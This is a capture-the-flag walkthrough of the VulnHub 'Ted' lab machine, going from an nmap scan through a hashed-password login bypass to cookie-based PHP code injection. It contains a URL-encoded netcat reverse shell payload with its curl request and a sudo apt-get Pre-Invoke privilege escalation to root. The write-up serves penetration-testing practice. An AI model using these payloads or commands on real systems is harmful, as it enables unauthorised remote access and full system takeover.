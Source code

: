 
Ted
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

[+] Command injection in cookie
[+] PHP reverse shell
[+] Privilege Escalation by abusing SUDO rights =  apt-get update
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Scan results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-02 03:46 EDT
Nmap scan report for 192.168.56.103
Host is up (0.00038s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
MAC Address: 08:00:27:EB:0A:11 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 192.168.56.103

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Only port 80 open
Browsing to port 80 :  http://192.168.56.103
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted-01.png)

There's a login page
Trying admin : admin as username and password credentials we get a error stating:
<p>Password hash is not correct, make sure to hash it before submit.</p>

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted02.png)


We try to encode it with different types of hashed: MD5, SHA1, SHA256. This later one worked submitting a SHA256 hash of admin, instead of the password
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted03.png)

admin : 8C6976E5B5410415BDE908BD4DEE15DFB167A9C873FC4BB8A81F6F2AB448A918

Using this credentials we are able to login to the application.
The admin panel has just a Search button for retrieving files from the server.

We are unable to retrieve the restricted files, but we have access to /var/lib/php/sessions/

We retrieve the file containing information about the current session of the user admin
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted04.png)


We try to manipulate the user_pref parameter in the cookie.
We insert a small php file that executes ifconfig to test code execution.
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted05.png)


Reverse shell

Sending the following php : <?php system("nc 192.168.56.102 1234 -e /bin/bash")?> 
Encoded in URL format : %3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%31%39%32%2e%31%36%38%2e%35%36%2e%31%30%32%20%31%32%33%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%22%29%3f%3e

We resubmit the request

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -i -s -k  -X $'POST' \
    -H $'Host: 192.168.56.103' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64;$
    -b $'PHPSESSID=4lnshplsfqb65oe3ihtnhqiqs0; user_pref=%3c%3f%70%68%70%20%73%$
    --data-binary $'search=%2Fvar%2Flib%2Fphp%2Fsessions%2Fsess_4lnshplsfqb65oe$
    $'http://192.168.56.103/home.php'

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Started listener on Kali at port 1234.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Upon making the request we get a reverse shell on kali linux
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/Ted/ted06.png)

Getting root
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 35310
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@ubuntu:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ubuntu:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User www-data may run the following commands on ubuntu:
     (root) NOPASSWD: /usr/bin/apt-get
 www-data@ubuntu:/var/www/html$sudo apt-get update -o APT::Update::Pre-Invoke::= "/bin/bash -i"
 root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


